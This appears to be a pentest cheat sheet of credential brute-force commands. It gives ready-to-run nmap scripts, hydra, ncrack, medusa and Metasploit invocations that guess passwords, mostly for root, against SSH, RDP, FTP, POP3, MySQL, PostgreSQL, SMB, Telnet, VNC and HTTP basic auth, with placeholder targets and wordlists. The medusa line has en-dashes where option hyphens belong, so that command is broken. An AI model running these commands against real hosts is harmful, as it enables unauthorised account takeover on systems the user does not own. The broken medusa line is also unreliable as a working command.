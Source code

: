 ### SSH
```
nmap -p 22 --script ssh-brute --script-args ssh-brute.timeout=4s "$T"
ncrack -P "${PLIST}" --user root "ssh://${T}"
hydra -P "${PLIST}" -l root "ssh://$T"
```
### Remote Desktop Protocol / RDP
```
ncrack -P "${PLIST}" --user root -p3389 "${T}"
hydra -P "${PLIST}" -l root "rdp://$T"
```
### FTP
```
hydra -P "${PLIST}" -l user "ftp://$T"
```
### POP3 (email)
```
nmap -p110,995 --script pop3-brute "$T"
```
### MySQL
```
nmap -p3306 --script mysql-brute "$T"
```
### PostgreSQL
```
nmap -p5432 --script pgsql-brute "$T"
```
### SMB (windows)
```
nmap --script smb-brute "$T"
```
### Telnet
```
nmap -p23 --script telnet-brute --script-args telnet-brute.timeout=8s "$T"
```
### VNC
```
nmap -p5900 --script vnc-brute "$T"
ncrack -P "${PLIST}" --user root "vnc://$T"
hydra -P "${PLIST}" "vnc://$T"
medusa -P "${PLIST}" –u root –M vnc -h "$T"
```
### VNC (with metasploit)
```
msfconsole
use auxiliary/scanner/vnc/vnc_login
set rhosts 192.168.0.1
set pass_file /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt
run
```
## HTML basic auth
```
echo admin >user.txt                     # Try only 1 username
echo -e "blah\naaddd\nfoobar" >pass.txt  # Add some passwords to try. 'aaddd' is the valid one.
nmap -p80 --script http-brute --script-args \
   http-brute.hostname=pentesteracademylab.appspot.com,http-brute.path=/lab/webapp/basicauth,userdb=user.txt,passdb=pass.txt,http-brute.method=POST,brute.firstOnly \
   pentesteracademylab.appspot.com
```